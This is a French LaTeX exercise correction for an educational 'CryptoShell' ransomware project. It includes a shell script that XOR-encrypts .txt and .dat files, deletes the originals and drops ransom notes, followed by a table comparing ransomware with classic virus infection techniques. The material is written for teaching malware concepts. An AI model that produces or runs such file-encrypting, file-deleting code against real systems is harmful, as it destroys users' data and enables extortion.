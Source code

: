 \documentclass[a4paper,11pt]{article}
\theoremstyle{plain}
\newtheorem{correction}{Correction}
\theoremstyle{definition}
\newtheorem{exercice}{Exercice}
\begin{document}
\begin{exercice}[Projet CryptoShell --- Ransomware éducatif]
\begin{correction}
\begin{lstlisting}[title=cryptoshell.sh (phase3\_ransom.sh)]
# Générer une clé aléatoire
KEY=$(generate_key 8)
echo "$KEY" > "$KEY_FILE"

# Fonction de création de note de rançon (3c)
create_ransom_note() {
    local dir="$1"
    cat > "${dir}/RANSOM_NOTE.txt" << EOF
============================================
    CRYPTOSHELL — VOS FICHIERS SONT CHIFFRÉS
============================================
Identifiant victime : ${VICTIM_ID}
Envoyez 0.5 BTC à [ADRESSE FICTIVE — TP ÉDUCATIF]
Contact : cryptoshell@fake-educational.example
[Ceci est un exercice éducatif]
============================================
EOF
}

echo "[CryptoShell] Chiffrement en cours..."
find "$TARGET_DIR" -type f \( -name "*.txt" -o -name "*.dat" \) | while read filepath; do
    # 3b) Anti-surinfection : ne pas re-chiffrer les .locked
    case "$filepath" in *.locked) continue ;; esac
    [ "$(basename "$filepath")" = "RANSOM_NOTE.txt" ] && continue
    xor_file "$filepath" "${filepath}.locked" "$KEY"
    rm -f "$filepath"
    echo "  [+] $(basename "$filepath") -> $(basename "$filepath").locked"
    DIR=$(dirname "$filepath")
    if [ ! -f "${DIR}/RANSOM_NOTE.txt" ]; then
        create_ransom_note "$DIR"
    fi
done
echo "[CryptoShell] Chiffrement terminé. ID: $VICTIM_ID"
\end{lstlisting}

\textbf{3d)} Comparaison ransomware vs techniques classiques :

\begin{center}
\begin{tabular}{lp{5.5cm}p{5.5cm}}
\toprule
\textbf{Technique} & \textbf{Action sur le fichier} & \textbf{Réversibilité} \\
\midrule
\textbf{Écrasement} & Remplace le contenu par le code viral & Irréversible (données détruites) \\
\textbf{Ajout} & Ajoute le code viral en fin & Réversible (retirer le code ajouté) \\
\textbf{Compagnon} & Ne modifie pas le fichier original & Réversible (supprimer le compagnon) \\
\textbf{Ransomware} & Remplace le contenu par la version chiffrée & Réversible \textbf{si} la clé est connue \\
\bottomrule
\end{tabular}
\end{center}

\textbf{Similitudes :} Le ransomware, comme le virus par écrasement, \textbf{remplace} le contenu du fichier. Comme le virus par ajout, il utilise un mécanisme d'\textbf{anti-surinfection} (vérification de l'extension \texttt{.locked}).


\end{correction}
\end{exercice}
\end{document}
